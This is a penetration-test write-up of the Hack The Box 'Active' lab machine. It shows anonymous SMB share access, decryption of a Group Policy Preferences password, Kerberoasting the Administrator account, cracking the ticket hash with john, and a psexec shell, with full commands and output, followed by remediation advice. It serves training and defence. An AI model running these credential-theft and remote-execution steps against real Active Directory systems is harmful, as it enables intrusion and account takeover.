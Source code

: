 # 1. Executive Summary

The tester successfully penerated the target system. The tester retrived a credential from the running server on the target, and gained higher privilege credential by abusing Single-Sign-On misconfiguration. 


## 1.1 General information
IP: 10.10.10.100
Tester: LifeTimeScriptKiddie
Target: Active.htb 10.10.10.100
Used tools: nmap, smbclient, Impacket-, smbmap, gpp-decrypt

## 1.2 Vulnerability - MITRE Attack Tree
T1555 - 
Credential Access -> Credentials from Password Stores
T1558 -
Steal or Forge Kerberos Tickets

Mitigation
M1015 - Active Directory Configuration

## 1.3 Technical Summary
SMB account credential was exposed. The tester logged into SMB server using null credential, retrieved GPP encrypted credential, and used the decrypted credential to do Kerberoasting. 


## 1.4 Recommendation: 
1. Remove the exposed credentias from the SMB server. 
2. Remove Null access on SMB server unless it is absolutely required. 
3. Give minimum required access to normal user account. 


# 2. Technical Detail 

## 2.1 Port Scanning using nmap
```bash
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-04 06:24 EDT
Nmap scan report for 10.10.10.100
Host is up (0.033s latency).
Not shown: 982 closed tcp ports (reset)
PORT      STATE SERVICE           VERSION
88/tcp    open  kerberos-sec?
135/tcp   open  msrpc             Microsoft Windows RPC
139/tcp   open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp   open  ldap?
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ldapssl?
3268/tcp  open  globalcatLDAP?
3269/tcp  open  globalcatLDAPssl?
49152/tcp open  msrpc             Microsoft Windows RPC
49153/tcp open  msrpc             Microsoft Windows RPC
49154/tcp open  msrpc             Microsoft Windows RPC
49155/tcp open  msrpc             Microsoft Windows RPC
49157/tcp open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc             Microsoft Windows RPC
49163/tcp open  msrpc             Microsoft Windows RPC
49176/tcp open  msrpc             Microsoft Windows RPC
...snip...

Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -1s
| smb2-security-mode: 
|   2.1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2022-11-04T10:27:08
|_  start_date: 2022-11-04T10:22:51

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 181.70 seconds

```

## 2.2 SMB enumerationg using smbmap and smbclient.

```
└─$ smbmap -H 10.10.10.100 
[+] IP: 10.10.10.100:445        Name: active.htb                                        
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    NO ACCESS       Remote IPC
        NETLOGON                                                NO ACCESS       Logon server share 
        Replication                                             READ ONLY
        SYSVOL                                                  NO ACCESS       Logon server share 
        Users                                                   NO ACCESS

```

The tester downloaded the entire Replication disk. Then manually searched for interesting file. Groups.xml file indicates username and cpassword. 
After a little bit of research, the tester was able to decrpt the cpassword hash. 

```bash
└─$  impacket-smbclient active.htb/@10.10.10.100                                                             
recurse OFF
mget *


└─$ cat Groups.xml         
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>


┌──(kali㉿kali)-[~/…/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups]
└─$ cat password  
edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ

└─$ gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
GPPstillStandingStrong2k18
```



## 2.3 Kerberos attack. 

Kerberos is one of SSO technology that authenticates service requests between two or more trusted hosts across an untrusted network. 

### 2.3.1 Kerberoasting
A quick summarize. The tester used retrived credential to request SPN to KDC. The KDC verified the credential and returned TGT (AS-REP). And the TGT contains user's identification which is encrytyped with KDC secret key. 
The tester decrypted the krb5tgs using john and rockyou.txt. 


```
┌──(kali㉿kali)-[~]
└─$ impacket-GetUserSPNs  active.htb/svc_tgs          
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
ServicePrincipalName  Name           MemberOf                                                  PasswordLastSet             LastLogon                   Delegation 
--------------------  -------------  --------------------------------------------------------  --------------------------  --------------------------  ----------
active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb  2018-07-18 15:06:40.351723  2022-11-16 20:52:29.474565       
```

```

└─$ impacket-GetADUsers active.htb/svc_tgs:GPPstillStandingStrong2k18


└─$ impacket-GetUserSPNs active.htb/svc_tgs:GPPstillStandingStrong2k18 -outputfile outputTGS.txt

└─$ cat outputTGS.txt 
$krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Administrator*$e4601375d36b55e14352299b9e4d1195$22242432fef9831a51e
cc59ad94e400edae38e381496423456b8439ebf6e10790dcee018c55d6fb6d1287a8df90e4ff1d6ab98de25d7716b797a2fc5347f5a8b6a5666e
35c3b9194b0be5808089f69e46b61bd76a7c0ea597b0accc547fa19809492b281e8db5afc7543dbd72d6751f0cb5006963848e883328f163590e
dfb4f9174fae0f8db2f7c71e07420c18a1819bc7ccf485116bf4c365f959632da79b792d3e6c2687dbff13dc4fc12f67ac6ecd280e5fc4e628b8
e9dc6dbc1783bce5725cf8096c0d58652dc62ec60e4687ae1f1ea1c89282d8209531bdad90b973fa56bd7140eae9154b82a8fad5017dc1a61475
579a5f8fcb83b5a77eb243a0ce60dcc1ef35ec72d483e9c276e538015aeec445a85a5f3746404babf62fc6bfc982d40270229bf82c7d0f23e95f
49f1b1311ce2d677bdc7e58f3c042eb9ab3714c56692ece5984c22186d5d90a6846d67946b3312002eae1961511ab7ed60c6b7fe7278e8d116cc
0097c7bb1924cd27400cad38942c23d52a331793be755a50c90517abf0f4ab20470f858a804520313a6ac0959073a2eda95eda80145e09daf819
3587bc6d3a1e1c35a1f0f66fff03544997d33e080b9d91fa660e420ef1997896d14c17fbd44e81aa6434a200eab80af2e53bc2b5faa8104bf26e
065a3260c20f463e80b38603d3a8dfafdb3e8ac82dca24e67744dfa08dbb26f9f58e609430f4bbda22919338a546a1b2d4a258acbc3508b48844
3aafc4f048a176a65204a50935544b81163a9f22118a8f6b8b5de35f9df0c01327bcf542a25ca809d3955aaa57aa82945502b4819f474fb31630
aeda83c75a1dde2daa80e3dc4065ba4097bda620441f866ab64879249e8d6044cb89ec48bfc151f4b62c98a46c4f086487e3597c50d9e0ee4fce
ae27fbba34427ab3abef933ee5987167434cac7101da8a4fff1b628522e7ff781fbd6c44cc6e24a70ac1e56240db80e67c1857058d96c881601e
c9dffa4d61ce9d61b78000039f61c4f229e314e5c4d20aa47730ed502314e80d25e4cbb67fa6a2e088d18be3cd02dd0e41bb99afcf8c95f5590b
d60039b7e8a5f6df4eb791cb5345b454b2380cf211825876595b511283886733beaaea7060fc398a19329686d8e7a91fe347da23dddebeef75fe
421417081b57110cb9ed59d53a74551882ed762cd7c43502b8a2960e22685d2da87662bfa8a17a3a3646a48212fcdf8817b6e5240a2ef9111605
0b51b0b21c828b2cce67a


┌──(kali㉿kali)-[~/HTB/ACTIVE]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt outputTGS.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Ticketmaster1968 (?)     
1g 0:00:00:04 DONE (2022-11-16 22:32) 0.2127g/s 2242Kp/s 2242Kc/s 2242KC/s Tiffani1432..Thrash1
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 


```


## 2.4 System shell using impacket-psexec
```
└─$ impacket-psexec active.htb/Administrator:Ticketmaster1968@10.10.10.100 


c:\Users\Administrator\Desktop> type root.txt
ea0179d65184342d3d66318b0312e378
```


# 3. Resources
https://www.hackthebox.com/achievement/machine/288193/148

https://superuser.com/questions/856617/how-do-i-recursively-download-a-directory-using-smbclient

https://github.com/jtpereyda/regpol

https://infinitelogins.com/2020/09/07/cracking-group-policy-preferences-file-gpp-xml/

https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a
https://www.hackingarticles.in/abusing-kerberos-using-impacket/
https://www.hackingarticles.in/kerberoasting-and-pass-the-ticket-attack-using-linux/
https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-with-bloodhound-on-kali-linux